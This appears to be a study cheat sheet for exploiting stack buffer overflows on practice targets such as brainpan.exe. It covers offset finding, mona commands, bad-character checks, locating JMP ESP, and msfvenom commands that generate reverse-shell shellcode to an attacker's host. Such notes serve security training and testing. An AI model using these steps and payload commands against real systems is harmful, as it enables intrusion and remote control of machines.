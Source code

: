 # BOF

**1. Check buffer length to trigger overflow**

**2. Cofirm overflow length, append "A" * length**

**3. Generate Offset to check EIP, ESP location**  
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l

```
Record value on EIP, select ESP and click "Follow in Dump"  
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value> -l <length>  

Use !mona to find the offset after the overflow  
!mona findmsp  
```

**4. Confirm EIP by adding "B" * 4 after the number of offset. Also, add a number of "C" to track the number of characters that can be added after EIP to confirm length of shellcode**

**5. Check bad characters after EIP. common bad characters are 0x00, 0x0A. Follow dump in ESP to check are there something missing after that.** Add code:

```
badchar = [0x00]
for ch in range (0x00 , 0xFF+1):
	if ch not in badchar:
		<payload> += chr(ch)
```

**6. Find JMP ESP address in the system.** JMP ESP = FFE4

```
!mona jmp -r esp -cpb "\x00\x0A" << bad character

!mona modules
!mona find -s "\xff\xe4" -m brainpan.exe

check the value of the address by naviate to it.
Set breakpoint
Change "B" in EIP to the address of JMP ESP << littile edian

e.g. 0x311712f3 >> "\xf3\x12\x17\x31"

Run again to check is the breakpoint triggered
```

**7. Add shellcode** Add a few \x90 before shellcode to avoid shellcode being modify

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -a x86 -platform windows -b "\x00"
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -b "\x00"
```

**Bonus: Running out of shell code space?** Use the front of payload instead

1.  Is there any register points to the front of our payload? EAX, EDX?
    
2.  Check JMP register address /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    
    JMP EAX/EBX/ECX/EDX
    
3.  Append the address as shell code.
    
4.  Add payload to the front